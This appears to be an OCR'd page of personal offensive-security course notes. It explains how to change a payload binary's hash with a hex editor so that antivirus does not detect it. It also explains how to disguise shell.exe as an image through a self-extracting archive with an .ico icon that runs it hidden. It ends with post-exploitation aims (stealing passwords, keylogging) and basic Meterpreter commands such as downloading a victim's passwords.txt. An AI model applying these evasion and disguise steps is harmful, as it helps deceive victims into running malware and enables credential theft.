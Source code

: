 	$ md5sum shell.exe - the hash is what that is being stored into a AV DB, so changing the hash could make the payload undetectable

	$ hexeditor shell.exe - will open the payload binary

	* change the HEX values of the string: 'This program cannot be run in DOS mode', 'text'

	* changing other hex bytes can crash the program

	* CTRL+O for save

	* check the md5 hash again - it should change 


## Payload masking

	* ping to ico converter on Google

	* .ico is the output

	* select both files and 'Add to Archive' and change the name - will be output an .exe file

	* General > rename.exe

	* Advanced > Advanced SFX > Update > select Extract and update files ; and Overwrite all files | Text and Icon > Load an SFX icon from the file > select the .ico file | Modes > Hide all ; Unpack to temporary folder | Setup > Run after extraction > car.png shell.exe | 



# Post exploitation

- look at files

- steal passwords

- hack the network

- keylog systems


## Meterpreter basic commands

-- core commands

	$ help 

	$ background - aka bg, if there is a session opened, we can put the session in the background without exiting from it ; allows for switching sessions

	$ getuid

	$ pwd

	$ dir or ls - supports both Windows and Linux commands for listing directories

	$ cat - print file content

	$ cd and cd .. - switch to and backwords a directory

	$ download passwords.txt - by default meterpreter downloads files to the Desktop
